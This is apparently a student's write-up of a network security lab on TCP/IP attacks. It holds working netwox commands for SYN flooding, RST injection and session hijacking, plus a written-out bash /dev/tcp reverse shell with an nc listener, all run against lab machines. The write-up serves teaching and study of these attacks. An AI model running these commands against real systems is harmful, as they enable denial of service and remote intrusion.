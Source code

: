 # Lab 4 - TCP/IP Attack

## Task 1: SYN Flooding Attack

```console
$ sysctl -q net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
$ netstat -tna > netstat_before_attack.txt
$ wc -l netstat_before_attack.txt
15 netstat_before_attack.txt
$ sudo sysctl -a | grep cookie
net.ipv4.tcp_syncookies = 0
```

```console
$ sudo netwox 76 -i 10.0.2.15 -p 22
```

```console
$ netstat -tna > netstat_cookie_0.txt
$ wc -l netstat_cookie_0.txt
112 netstat_cookie_0.txt
$ sudo sysctl -w net.ipv4.tcp_syncookies=1
net.ipv4.tcp_syncookies = 1
$ sudo sysctl -a | grep cookie
net.ipv4.tcp_syncookies = 1
```

During this time any client were unable to ssh to the attacked machine.

```console
$ sudo netwox 76 -i 10.0.2.15 -p 22
```

```console
$ wc -l netstat_cookie_1.txt
141 netstat_cookie_1.txt
```

It was clearly observed the machine got a lot slower during the attack when cookies was set to 1. However, it was still possible to access the attacked machine.

During this task the connection queue was verified to be reset between each step. The task was also replicated using port 23 (telnet) with the same result.

### Question: Why can the SYN cookie effectively protect the machine against the SYN flooding attack?

SYN cookies is a technical attack mitigation technique whereby the server replies to TCP SYN requests with crafted SYN-ACKs, without inserting a new record to its SYN Queue. Only when the client replies this crafted response a new record is added. This technique is used to protect the server SYN Queue from filling up under TCP SYN floods.

## Task 2: TCP RST Attacks on telnet and ssh Connections

`$ sudo netwox 78 -d Eth0`

During the attack any attempt to a TCP connection is met with `ssh_exchange_identification: read: Connection reset by peer`. If a connection was already established the connection drops on interaction with the message `packet_write_wait: Connection to 10.0.1.134 port 22: Broken pipe`.

Note: The task was only able to be performed using ssh. Didn't get a telnet connection to establish. But most plausible the same thing would occur.

## Task 3: TCP RST Attacks on Video Streaming Applications

I guess it would work to kill the TCP connection and stop the playback if there was any streaming service I could find that supported 32 bit firefox browser on Ubuntu. For some reason it didn't work on Youtube, which pretty much was the only free video streaming service I could get to play any video without being asked to "get the latest version of Firefox or Chrome" (which apparently only supports 64 bit these days).

## Task 4: TCP Session Hijacking

Once we get a hold of a TCP connection. We can use it again

```console
$ sudo netwox 40 -l 192.168.111.130 -m 192.168.111.183 -o 49869 -p 23 -i 0 -j 64 -k 6 -g -z -A -E 128 -q 70 -r 7 -H "6c"
```

## Task 5: Creating Reverse Shell using TCP Session Hijacking

On the attacking machine. Start listening for incoming messages using `nc -l 9090 -v`

On the attacked machine the commando `$ /bin/bash -i > /dev/tcp/10.0.1.134/9090 0<&1 2>&1` is run. The IP is the IP to the attacking machine and port is the one specified above.

Once the attacking machine gets a connection it instantly opens a shell connection to the attacked machine. However this shell is fragile so it is recommended to try to achieve a strong shell.
